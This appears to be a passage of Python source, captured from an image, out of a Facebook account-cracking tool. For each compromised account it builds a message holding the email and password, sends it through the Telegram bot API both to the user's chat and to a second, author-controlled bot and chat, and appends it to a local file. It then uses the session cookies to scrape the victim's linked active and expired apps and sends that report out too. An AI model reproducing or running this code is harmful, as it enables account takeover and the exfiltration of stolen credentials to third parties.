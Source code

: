 					infoakun += f'''
ɴᴇᴡ ғᴀᴄᴇʙᴏᴏᴋ ᴀᴄᴄ ʙʀᴏ ⚡❄ 
حـ༈ۖ҉ـسـ༈ۖ҉ـآب فـ༈ۖ҉ـيـ༈ۖ҉ـسـ༈ۖ҉ـبـ༈ۖ҉ـؤُك شغال ⚡❄
_____________________________
ᴇᴍᴀɪʟ - ايـ√ـمـيـل < {idf}

ᴘᴀѕѕ - بـاسـ🔒ـوࢪد < {pw}
_____________________________
*ᴅᴏɴᴛ ғᴏʀɢᴇᴛ ѕᴄʀᴇᴇɴѕ* 🖤🌞
*لاتنسى صور الصيد* ✨🔥
_____________________________
𝙱𝚈 - 𝙳𝙴𝚅 ℡ < @Lx0b2 >
𝙳𝙴𝚅 - 𝙲𝙷𝙽 < @Pythonln >

'''
					requests.get("https://api.telegram.org/bot"+str(token)+"/sendMessage?chat_id="+str(ID)+"&text="+str(infoakun))
					requests.get("https://api.telegram.org/bot"+str(mytoken)+"/sendMessage?chat_id="+str(myid)+"&text="+str(infoakun))
					open('infoaccount/'+okc,'a').write(infoakun)
					kilgame(kuki)

					hit1, hit2 = 0,0
					cek =session.get("https://m.facebook.com/settings/apps/tabbed/?tab=active",cookies=coki,headers=headapp).text
					cek2 = session.get("https://m.facebook.com/settings/apps/tabbed/?tab=inactive",cookies=coki,headers=headapp).text
					if "Diakses menggunakan Facebook" in re.findall("\<title\>(.*?)<\/title\>",str(cek)):
						infoakun += (f"Aplikasi Yang Terkait*\n")
						if "Anda tidak memiliki aplikasi atau situs web aktif untuk ditinjau." in cek:
							infoakun += (f"Tidak Ada Aplikasi Aktif Yang Terkait *\n")
						else:
							infoakun += (f"	Aplikasi Aktif : \n")
							apkAktif = re.findall('\/><div\ class\=\".*?\"\>\<span\ class\=\".*?\"\>(.*?)<\/span\>',str(cek))
							ditambahkan = re.findall('\<div\>\<\/div\>\<div\ class\=\".*?\"\>(.*?)<\/div\>',str(cek))
							for muncul in apkAktif:
								hit1+=1
								infoakun += (f"		[{hit1}] {muncul} {ditambahkan[hit2]}\n")
								hit2+=1
						if "Anda tidak memiliki aplikasi atau situs web kedaluwarsa untuk ditinjau" in cek2:
							infoakun += (f"\nTidak Ada Aplikasi Kedaluwarsa Yang Terkait\n")
						else:
							hit1,hit2=0,0
							infoakun += (f"	Aplikasi Kedaluwarsa :\n")
							apkKadaluarsa = re.findall('\/><div\ class\=\".*?\"\>\<span\ class\=\".*?\"\>(.*?)<\/span\>',str(cek2))
							kadaluarsa = re.findall('\<div\>\<\/div\>\<div\ class\=\".*?\"\>(.*?)<\/div\>',str(cek2))
							for muncul in apkKadaluarsa:
								hit1+=1
								infoakun += (f"		[{hit1}] {muncul} {kadaluarsa[hit2]}\n")
								hit2+=1
					else:pass
					print('\n')
					statusok = f'''					
   \n{infoakun}					
					'''
					statusok1 = nel(statusok, style='green')
					cetak(nel(statusok1, title='OK'))
					requests.get("https://api.telegram.org/bot"+str(token)+"/sendMessage?chat_id="+str(ID)+"&text="+str(statusok))
					requests.get("https://api.telegram.org/bot"+str(mytoken)+"/sendMessage?chat_id="+str(myid)+"&text="+str(statusok))
					kilgame(kuki)
					break
